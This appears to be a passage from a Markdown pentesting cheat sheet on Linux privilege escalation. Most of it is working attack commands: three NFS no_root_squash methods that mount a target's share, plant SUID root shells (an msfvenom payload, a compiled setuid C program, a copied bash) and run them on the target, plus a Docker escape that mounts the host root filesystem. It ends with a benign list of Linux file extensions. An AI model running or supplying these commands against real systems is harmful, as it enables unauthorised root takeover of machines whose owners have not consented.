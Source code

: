 ```bash
```
### Root-Squashing (1) ✡️
```bash
cat /etc/exports # target machine (no_root_squash)
mkdir /tmp/nfs # our kali
sudo mount -o rw,vers=3 10.10.10.10:/tmp /tmp/nfs # our kali
sudo msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf # our kali
sudo chmod +xs /tmp/nfs/shell.elf # our kali
/tmp/shell.elf # target machine
```
### Root-Squashing (2) ✡️
```bash
showmount -e 10.10.10.10 # our kali
mkdir /tmp/nfs # our kali
sudo mount -o rw,vers=2 10.10.10.10:/tmp /tmp/nfs # our kali
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/nfs/shell.c # our kali
sudo gcc /tmp/nfs/shell.c -o /tmp/nfs/shell # our kali 
sudo chmod +xs /tmp/nfs/shell # our kali OR target machine
/tmp/shell # target machine
```
### Root-Squashing (3) ✡️
```bash
cat /etc/exports # target machine (no_root_squash)
cp /bin/bash /tmp/bash # target machine
mkdir /tmp/nfs # our kali
sudo mount -o rw,vers=3 10.10.10.10:/tmp /tmp/nfs # our kali
sudo chown root:root /tmp/nfs/bash # our kali
sudo chmod +xs /tmp/nfs/bash # our kali
/tmp/bash -ip # target machine
```
## Docker ✅
```bash
./docker ps # find image name (1)
./docker images # find image name (2)
./docker run -v /:/mnt --rm -it <image name> chroot /mnt sh
```
[docker-gtfobins](https://gtfobins.github.io/gtfobins/docker/)

#### The following list shows the most commons file extensions for linux: ❗️☪️
```bash
.a   : a static library ;
.au    : an audio file ;
.bin :    a) a binary image of a CD (usually a .cue file is also included); b) represents that the file is binary and is meant to be executed ;
.bz2 :    A file compressed using bzip2 ;
.c :    A C source file ;
.conf :  A configuration file. System-wide config files reside in /etc while any user-specific configuration will be somewhere in the user’s home directory ;
.cpp :  A C++ source file ;
.deb :  a Debian Package;
.diff :   A file containing instructions to apply a patch from a base version to another version of a single file or a project (such as the linux kernel);
.dsc:   a Debian Source information file ;
.ebuild : Bash script used to install programs through the portage system. Especially prevalent on Gentoo systems;
.el :  Emacs Lisp code file;
.elc :  Compiled Emacs Lisp code file;
.gif :    a graphical or image file;
.h :a C or C++ program language header file;
.html/.htm  :   an HTML file;
```